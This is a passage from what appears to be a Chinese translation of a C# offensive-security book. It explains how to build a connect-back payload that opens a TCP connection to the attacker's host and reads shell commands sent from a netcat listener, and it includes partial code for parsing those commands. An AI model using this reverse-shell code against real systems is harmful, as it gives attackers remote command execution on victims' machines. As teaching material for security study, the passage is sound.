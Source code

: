 清单 4-2：使用有效载荷参数创建回攻攻击者的流

TcpClient 类构造函数接受两个参数：要连接的主机的字符串和要连接的端口号的 int 类型。使用传递给有效载荷的参数，假设第一个参数是要连接的主机，我们将这些参数传递给 TcpClient 构造函数 ➊。由于默认情况下这些参数是字符串，我们不需要将主机强制转换为任何特殊类型，只需要转换端口。

第二个参数，指定要连接的端口，必须以 int 类型提供。为了实现这一点，我们使用 int.Parse() 静态方法 ➋ 将第二个参数从字符串转换为 int。（C# 中许多类型都有静态 Parse() 方法，将一种类型转换为另一种类型。）在实例化 TcpClient 后，我们调用客户端的 GetStream() 方法 ➌ 并将其赋值给变量 stream，供我们读取和写入。最后，我们将流传递给 StreamReader 类构造函数 ➍，以便可以轻松读取来自攻击者的命令。

接下来，我们需要让有效载荷从流中读取数据，只要我们从 netcat 监听器发送命令。为此，我们将使用在清单 4-2 中创建的流，如清单 4-3 所示。

> while (true)
> 
> {
> 
> string cmd = rdr.➊ReadLine();
> 
> if (string.IsNullOrEmpty(cmd))
> 
> {
> 
> rdr.➋Close();
> 
> stream.Close();
> 
> client.Close();
> 
> return;
> 
> }
> 
> if (string.➌IsNullOrWhiteSpace(cmd))
> 
> continue;
> 
> string[] split = cmd.Trim().➍Split(' ');
> 
> string filename = split.➎First();
> 
> string arg = string.➏Join(" ", split.➐Skip(1)); 清单 4-3：从流中读取命令并解析命令及其参数

在一个无限的 while 循环中，StreamReader 的 ReadLine() 方法 ➊ 从流中读取一行数据，然后将其赋值给 cmd 变量。我们根据数据流中出现换行符的位置（\n，或十六进制表示为 0x0a）来判断一行数据的结束。如果 ReadLine() 返回的字符串为空或为 null，我们关闭 ➋ 流读取器、流和客户端，然后从程序中返回。如果字符串仅包含空白字符 ➌，我们通过使用 continue 重新开始循环，这将使我们回到 ReadLine() 方法，从头开始。

在从网络流中读取到要执行的命令后，我们将命令本身与命令的参数分开。例如，如果攻击者发送命令 `ls -a`，命令是 `ls`，命令的参数是 `-a`。

为了分离出参数，我们使用 Split() 方法 ➍ 将完整命令按每个空格分割成字符串，然后返回一个字符串数组。字符串数组是通过将整个命令字符串按照传递给 Split() 方法的分隔符（在我们这里是空格）进行分割得到的结果。接着，我们使用 First() 方法 ➎，该方法可用于如数组等可枚举类型，它从 Split 返回的字符串数组中选择第一个元素，并将其赋值给字符串变量 filename，用于保存基本命令。这应该是实际的命令名称。然后，Join() 方法 ➏ 会将分割数组中的所有元素（除了第一个）通过空格连接成一个字符串。我们还使用 LINQ 的 Skip() 方法 ➐ 来跳过存储在 filename 变量中的数组中的第一个元素。最终的字符串应该包含传递给命令的所有参数。这个新的字符串被赋值给字符串变量 arg。

运行命令

现在我们需要运行命令并将输出返回给攻击者。如示例 4-4 所示，我们使用 Process 和 ProcessStartInfo 类来设置并运行命令，然后将输出写回给攻击者。
